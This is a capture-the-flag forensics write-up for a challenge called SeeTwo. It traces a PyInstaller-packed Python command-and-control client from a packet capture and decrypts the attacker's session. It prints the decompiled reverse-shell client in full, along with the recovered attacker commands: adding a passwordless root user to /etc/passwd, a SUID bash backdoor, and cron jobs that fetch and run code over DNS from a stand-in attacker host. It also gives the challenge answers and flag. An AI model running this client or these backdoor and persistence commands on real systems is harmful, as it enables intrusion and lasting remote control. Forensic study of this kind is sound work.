

# SeeTwo

# SeeTwo

### Network Forensics & Reverse Engineering of a Python-Based C2 Client

## Scenario

Tasked with looking at some suspicious network activity flagged by the digital forensics team. The server was taken out of production while the suspicious behavior was analyzed. The task files provided an `evidence.zip` file to extract and begin analysis.

On downloading and extracting the zip, I got a PCAP file, which I opened in Wireshark.

---

## Part 1: Identifying and Retrieving the Payload

### Q1: What is the first file that is read? (full path)

First, I filtered the traffic using `http` in Wireshark’s display filter and got two HTTP packets. The first was a GET request to the endpoint `/base64_client`. Investigating further, I found this was the file the user downloaded.



In this GET request, the requested URI is `/base64_client`. In the second HTTP request (the response), I found the server header:

```
Server: SimpleHTTP/0.6 Python/3.11.4
Date: Fri, 27 Oct 2023 03:06:00 GMT
```

We want the full path of the file — this will be established once decoded, below.

### Extracting the file content

I right-clicked the GET request and selected **Follow → HTTP Stream**, revealing Base64-encoded content in the response:


This content was too long to decode directly, so another approach was needed. I saved the file via **File → Export Objects → HTTP**, selected the filename, and saved it to my VM.

I also tried decoding it directly in CyberChef but got unexpected (non-useful) results, so I moved to static analysis instead — starting with checking the file type:

```
file base64_client
base64_client: ASCII text
```

---

## Part 2: Static Analysis & Identifying the File Type

I found the MD5 hash of the file and searched it on VirusTotal. **20 out of 62** vendors flagged it as malicious — labeled as Python, with the family label **“Python Multiverz”** and threat category **Trojan**. Nothing else of interest turned up in the VirusTotal results.

The family label suggested this was Python-based. I used ChatGPT to get a hint, which pointed toward this being a reverse engineering task.

### Decoding the Base64 payload

```bash
base64 -d base64_client > client.elf
```

### Identifying the file type

```bash
file client.elf
```

### Inspecting the ELF headers

```bash
readelf -h client.elf
```


## Part 3: Investigating the Executable’s Contents

Now to investigate what information the executable contains:

```bash
strings -n 6 client.elf | less
```

I searched for interesting text and found references to:

1. `PyRun_SimpleStringFlags` — a Python C API function used to execute Python code.
2. `dlsym` — used to locate symbols dynamically in shared libraries.
3. `tokenize` — relates to Python’s tokenization functionality.

This confirmed the executable involves Python functionality, so the next step was to investigate whether it embeds or loads Python code.

To confirm, I searched for Python-related strings:

```bash
strings -n 5 client.elf | grep -Ei 'python|marshal|compile|exec|eval|base64|socket|subprocess|urllib|import'
```


These strings confirmed Python-related functionality. It could be using a packager such as PyInstaller, though that hadn’t been established yet.

### Identifying the packager

```bash
strings client.elf | grep -Ei 'pyinstaller|pyi-|pyiboot|pyimod|_MEIPASS'
```


The combination of these indicators made PyInstaller identification very convincing.

---

## Part 4: Extracting and Decompiling the PyInstaller Archive

First, I obtained the PyInstaller extractor:

```bash
git clone https://github.com/extremecoders-re/pyinstxtractor.git
```

Then ran it:

```bash
python3 pyinstxtractor/pyinstxtractor.py client.elf
```

This produced a `client.elf_extracted` directory containing several files, most notably `client.pyc`:


This `.pyc` file is likely the application’s main Python bytecode file and was the priority to inspect.

### Decompiling the bytecode

I used `uncompyle6` against `client.pyc`:

```bash
python3 -m venv myenv
source myenv/bin/activate
pip install uncompyle6
uncompyle6 client.pyc > client.py
```

This produced `client.py`, containing the full decompiled source:

```python
# uncompyle6 version 3.9.3
# Python bytecode version base 3.8.0 (3413)
# Embedded file name: client.py
import socket, base64, subprocess, sys
HOST = "10.0.2.64"
PORT = 1337

def xor_crypt(data, key):
    key_length = len(key)
    encrypted_data = []
    for i, byte in enumerate(data):
        encrypted_byte = byte ^ key[i % key_length]
        encrypted_data.append(encrypted_byte)
    else:
        return bytes(encrypted_data)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    while True:
        received_data = s.recv(4096).decode("utf-8")
        encoded_image, encoded_command = received_data.split("AAAAAAAAAA")
        key = "MySup3rXoRKeYForCommandandControl".encode("utf-8")
        decrypted_command = xor_crypt(base64.b64decode(encoded_command.encode("utf-8")), key)
        decrypted_command = decrypted_command.decode("utf-8")
        result = subprocess.check_output(decrypted_command, shell=True).decode("utf-8")
        encrypted_result = xor_crypt(result.encode("utf-8"), key)
        encrypted_result_base64 = base64.b64encode(encrypted_result).decode("utf-8")
        separator = "AAAAAAAAAA"
        send = encoded_image + separator + encrypted_result_base64
        s.sendall(send.encode("utf-8"))
```

### Key takeaways from the decompiled code

This is a **Reverse Shell / Command-and-Control (C2) client** written in Python, using Base64 encoding and XOR encryption to obfuscate its communication:

1. Establishes a TCP connection to a remote server (`10.0.2.64`) on port `1337`.
2. Continuously listens for incoming data from the server.
3. Splits received data into two parts using `AAAAAAAAAA` as a separator.
4. Decodes the command using Base64.
5. Decrypts the command using XOR with a hardcoded key (`MySup3rXoRKeYForCommandandControl`).
6. Executes the decrypted command through the shell.
7. Captures the command output.
8. Encrypts the output using the same XOR key.
9. Encodes the encrypted output using Base64.
10. Sends the result back to the C2 server.

---

## Part 5: Extracting and Decrypting the C2 Traffic

With the XOR key and framing format known, the next step was extracting the relevant traffic using **TShark** (the command-line version of Wireshark). TShark lets us apply display filters and pull specific packet fields (like TCP payloads) without manually clicking through every packet — useful for scripting this kind of extraction.

First, filtering traffic between the host and the C2 server on `10.0.2.64:1337`:

```bash
tshark -r capture.pcap -Y "tcp.port == 1337 && ip.addr == 10.0.2.64" \
  -T fields -e tcp.payload
```

This reads `capture.pcap`, filters for TCP traffic to/from `10.0.2.64` on port 1337, and prints the TCP payloads. The output is in hexadecimal, so it needs decoding to be readable:

```bash
xxd -r -p
```

This reverses the hex encoding to raw binary output. To process every line of payload, I used a while loop:

```bash
while read -r line; do
  echo "$line" | xxd -r -p | grep .
done
```

Combining it all into one complete command:

```bash
tshark -r capture.pcap -Y "tcp.port == 1337 && ip.addr == 10.0.2.64" \
  -T fields -e tcp.payload | while read -r line; do
    echo "$line" | xxd -r -p | grep .
  done > output.txt
```

### Writing the decryption script

With the XOR key known from `client.py`, and the data-splitting format known, I wrote a decryption script:

```python
import base64
from pwn import xor

KEY = b"MySup3rXoRKeYForCommandandControl"
for line in open("output.txt"):
    # get the encrypted command/output
    encrypted = line.split("AAAAAAAAAA")[1]
    raw = base64.b64decode(encrypted)
    print(xor(raw, KEY)[:len(raw)].decode())
```

Install the required `pwntools` module and run the script:

```bash
python3 -m pip install pwntools
python3 example.py
```

Running this script against `output.txt` revealed the attacker’s full command-and-response session.

---

## Part 6: Reconstructing the Attacker’s Actions

With the decrypted traffic in hand, here’s the full command sequence the attacker ran on the compromised host:

```bash
id
# uid=1000(bella) gid=1000(bella) groups=1000(bella),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)

cat /home/bella/.bash_history
```

### Q1: What is the first file that is read? (full path)

**Answer:** `/home/bella/.bash_history`

### Q2: What is the output of the file from Q1?

```
mysql -u root -p'vb0xIkSGbcEKBEi'
```

**Answer:** `mysql -u root -p'vb0xIkSGbcEKBEi'`

Continuing the session, the attacker checked sudo privileges, found full root access, and escalated:

```bash
sudo -l
# Matching Defaults entries for bella on seetwo:
#   env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
# User bella may run the following commands on seetwo:
#   (ALL : ALL) ALL

id
# uid=0(root) gid=0(root) groups=0(root)

echo 'toor::0:0:root:/root:/bin/bash' >> /etc/passwd
tail -n 1 /etc/passwd
# toor::0:0:root:/root:/bin/bash
```

### Q3: What user did the attacker create as a backdoor? (entire line)

**Answer:** `toor::0:0:root:/root:/bin/bash`

Next, the attacker planted a SUID backdoor binary:

```bash
cp /usr/bin/bash /usr/bin/passswd
chmod u+s /usr/bin/passswd
ls -l /usr/bin/passswd
# -rwsr-xr-x 1 root root 1183448 Oct 27 03:07 /usr/bin/passswd

md5sum /usr/bin/passswd
# 23c415748ff840b296d0b93f98649dec  /usr/bin/passswd

md5sum /usr/bin/bash
# 23c415748ff840b296d0b93f98649dec  /usr/bin/bash
```

### Q4: What is the name of the backdoor executable?

**Answer:** `/usr/bin/passswd`

### Q5: What is the MD5 hash of the executable from Q4?

**Answer:** `23c415748ff840b296d0b93f98649dec`

Finally, the attacker planted persistence via cron jobs:

```bash
echo '* * * * * /bin/sh -c "sh -c $(dig ev1l.thm TXT +short @ns.ev1l.thm)"' >> /var/spool/cron/crontabs/root
tail -n 1 /var/spool/cron/crontabs/root
# * * * * * /bin/sh -c "sh -c $(dig ev1l.thm TXT +short @ns.ev1l.thm)"
```

### Q6: What was the first cronjob placed by the attacker?

**Answer:** `* * * * * /bin/sh -c "sh -c $(dig ev1l.thm TXT +short @ns.ev1l.thm)"`

A second cronjob was planted for the `bella` user, this time Base64-encoded:

```bash
echo '* * * * * echo L2Jpbi9zaCAtYyAic2ggLWMgJChkaWcgZXYxbC50aG0gVFhUICtzaG9ydCBAbnMuVEhNe1NlZTJzTmV2M3JHZXRPbGR9LnRobSki | base64 | sh' >> /var/spool/cron/crontabs/bella
tail -n 1 /var/spool/cron/crontabs/bella
```

### Q7: What is the flag?

Decoding the Base64 string from the second cronjob:

```
L2Jpbi9zaCAtYyAic2ggLWMgJChkaWcgZXYxbC50aG0gVFhUICtzaG9ydCBAbnMuVEhNe1NlZTJzTmV2M3JHZXRPbGR9LnRobSki
```

gives:

```
/bin/sh -c "sh -c $(dig ev1l.thm TXT +short @ns.THM{See2sNev3rGetOld}.thm)"
```

**Answer:** `THM{See2sNev3rGetOld}`

---

## Summary

| Stage | Finding |
| --- | --- |
| Delivery | Base64-encoded ELF payload served via `/base64_client` over HTTP (SimpleHTTP/Python server) |
| Packaging method | PyInstaller-bundled Python executable (`client.elf`) |
| Decompiled logic | Python-based reverse shell / C2 client using XOR + Base64 obfuscation |
| C2 server | `10.0.2.64:1337` |
| XOR key | `MySup3rXoRKeYForCommandandControl` |
| First file accessed on victim | `/home/bella/.bash_history` |
| Leaked credential | MySQL root password `vb0xIkSGbcEKBEi` |
| Privilege escalation | `sudo -l` → full root access |
| Backdoor user | `toor::0:0:root:/root:/bin/bash` |
| Backdoor SUID binary | `/usr/bin/passswd` (MD5: `23c415748ff840b296d0b93f98649dec`) |
| Persistence (root cron) | DNS TXT-based second-stage execution via `ev1l.thm` |
| Persistence (bella cron) | Base64-encoded DNS TXT callback, decoding to flag domain |
| Flag | `THM{See2sNev3rGetOld}` |

**Verdict:** Confirmed full compromise chain — a PyInstaller-packaged Python reverse shell established XOR/Base64-obfuscated C2 communication, the attacker harvested a MySQL root credential from shell history, escalated to root via unrestricted `sudo`, planted a root-equivalent backdoor account and a SUID shell binary, and established DNS-TXT-record-based cron persistence for long-term, low-visibility access.